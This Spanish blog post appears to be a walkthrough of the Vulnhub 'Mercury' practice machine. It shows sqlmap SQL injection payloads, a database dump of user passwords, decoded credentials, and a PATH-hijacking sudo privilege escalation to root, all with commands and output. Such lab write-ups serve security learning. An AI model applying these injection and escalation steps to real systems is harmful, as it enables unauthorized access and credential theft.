 ```yaml
---
title: "Vulnhub #4: Mercury"
description: Pentesting a máquina Mercury en Vulnhub
date: 2025-05-12
scheduled: 2025-05-12
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la maquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/the-planets-mercury,544/)

## Datos

IP Atacante: 192.168.0.25
IP Victima: 192.168.0.31

## Recon

### Nmap

```
datadiego@~ nmap -Pn 192.168.0.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:50 CET
Nmap scan report for 192.168.0.31
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Web

En la maquina hay un servidor http, en el index solo hay un mensaje en plano:

```
Hello. This site is currently in development please check back later.
```

Existe un robots.txt:

```
User-agent: * 
Disallow: /
```

Si intentamos entrar a cualquier otra pagina que no existe:

```

Page not found (404)
Request Method: 	GET
Request URL: 	http://192.168.0.31:8080/hello

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

    [name='index']
    robots.txt [name='robots']
    mercuryfacts/

The current path, hello, didn't match any of these.

You're seeing this error because you have DEBUG = True in your Django settings file. Change that to False, and Django will display a standard 404 page.
```

Ahora sabemos que el servidor es un django, y que existe un endpoint `mercuryfacts`.

Cuando accedemos a /mercuryfacts encontramos otros dos endpoints:

- /mercuryfacts/todo
- /mercuryfacts/:number

En la lista de /todo:
```
 Still todo:

    Add CSS.
    Implement authentication (using users table)
    Use models in django instead of direct mysql call
    All the other stuff, so much!!!
```

Lanzamos sqlmap:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --dbs --batch
```

Encuentra lo siguiente:

```
sqlmap identified the following injection point(s) with a total of 1876 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.0.31:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x7170706b71,(SELECT (ELT(7619=7619,1))),0x7170707a71),7619)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.0.31:8080/mercuryfacts/(CASE WHEN (5772=5772) THEN SLEEP(5) ELSE 5772 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.0.31:8080/mercuryfacts/-9431 UNION ALL SELECT CONCAT(0x7170706b71,0x746152665350437975484f575550785542644a64465743704a555253535467456c67735377476378,0x7170707a71)#
---
[05:11:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[05:11:02] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[05:11:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.0.31'

[*] ending @ 05:11:02 /2025-02-11/
```

Sacamos datos de las tablas con:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --current-db -D mercury --batch --dump-all
```

Encontramos lo siguiente:

```
[05:50:50] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

Ningun usuario funciona en SSH excepto `webmaster`

Encontramos la user_flag.txt:

```
user_flag_8339915c9a454657bd60ee58776f4ccd
```

En `/etc/passwd` encontramos otro usuario:
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash

Encontramos el hash de ambos:

```
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

Descodificamos la contraseña:

```
webmaster@mercury:~/mercury_proj/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

Entramos por SSH o mediante `su linuxmaster` y comprobamos permisos con sudo -l:

```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

Comprobamos el archivo:

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
```

El comando se esta ejecutando directamente, sin especificar la ruta absoluta, por lo que es vulnerable a `path hijacking`.

Podemos hacer lo siguiente:

```
linuxmaster@mercury:~$ mkdir /tmp/malito
```

Dentro del directorio, creamos un `.sh` que ejecute una shell con nano:

```
#!/bin/bash
/bin/bash
```

Damos permisos con `chmod +x /tmp/malito/tail`.
Exportamos la variable con `export PATH=/tmp/malito:$PATH`
Ejecutamos el script utilizando la variable de entorno con `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

Obtenemos acceso a root!

```
linuxmaster@mercury:~$ cd /tmp/malito/
linuxmaster@mercury:/tmp/malito$ ls
linuxmaster@mercury:/tmp/malito$ nano tail
linuxmaster@mercury:/tmp/malito$ ls
tail
linuxmaster@mercury:/tmp/malito$ chmod +x /tmp/malito/tail 
linuxmaster@mercury:/tmp/malito$ export PATH=/tmp/malito:$PATH
linuxmaster@mercury:/tmp/malito$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
[sudo] password for linuxmaster: 
root@mercury:/tmp/malito# whoami
root
root@mercury:/tmp/malito# 
```
